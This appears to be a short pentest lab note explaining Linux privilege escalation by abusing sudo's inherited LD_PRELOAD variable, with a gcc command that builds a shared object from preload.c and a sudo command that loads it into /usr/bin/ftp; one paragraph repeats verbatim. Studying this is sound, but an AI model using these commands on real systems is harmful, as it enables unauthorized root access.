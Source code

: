 <figure><img src="../../.gitbook/assets/image (32) (3) (1).png" alt=""><figcaption></figcaption></figure>

**LD\_PRELOAD** and **LD\_LIBRARY\_PATH** are both inherited from the user's environment. LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c.

**Victim**

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

**LD\_PRELOAD** and **LD\_LIBRARY\_PATH** are both inherited from the user's environment. LD\_PRELOAD loads a shared object before any others when a program is run. LD\_LIBRARY\_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c

**Victim**

```
sudo LD_PRELOAD=/tmp/preload.so /usr/bin/ftp
```

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>
